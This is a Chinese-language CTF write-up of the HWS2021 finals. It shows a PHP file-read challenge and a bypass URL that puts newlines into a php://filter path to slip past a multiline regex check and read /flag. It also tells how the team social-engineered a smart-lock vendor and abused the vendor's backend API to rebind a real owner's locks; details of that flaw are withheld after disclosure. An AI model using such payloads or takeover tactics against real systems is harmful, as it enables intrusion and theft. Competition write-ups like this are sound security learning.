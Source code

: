 ```yaml
---
title: HWS2021决赛WriteUp
date: 2021-03-02 18:15:59
tags: 
  - CTF
  - WriteUP
author: xm1994
categories:
  - Writeup
---
```


这次比赛运气不错拿了第一，但是跟硬件相关的侧信道和故障注入一个都不会做TAT，还是需要向各位大佬学习一个。
PS：盲生，你发现华点了没？


## web
http://hws2021-web.node3.buuoj.cn/
通过访问`?file=index.php`可以获得源码：

```php
<?php
if(!isset($_GET['file'])) {
	header('Location: /?file=log.txt');
	die();
}

$file = $_GET['file'];

$re = '/^\w*\.\w*$/m';

preg_match_all($re, $file, $matches, PREG_SET_ORDER, 0);

if(count($matches) != 1) {
	die('illegal operation!');
}

echo file_get_contents($file);
```

preg多行匹配，`^`可以匹配到任意行的起始，因此可以用换行符绕过检查。
```
view-source:http://hws2021-web.node3.buuoj.cn/?file=php://filter/read=%0aconvert.base64%0a-encode/resource=/flag
```

## easylock

出题人提供的智能锁APP所有在线功能都无法使用。
我们通过社工（拨打锁的官方网站上的客服电话）的方法获取到了锁的相关信息，并且下载到了最新版的APP。
经过一些逆向和抓包分析，发现其后台API接口存在大量的信息泄露/平行权限，可以任意解绑硬件，绑定到新账号。于是通过第一次挑战上台获取到了锁ID。第一次挑战失败后通过锁ID获取到了锁主人账号，并将其所有的锁都绑定到了自己账号上，然后上台开锁。
该漏洞已经提交补天和厂家，细节暂不在此透露。
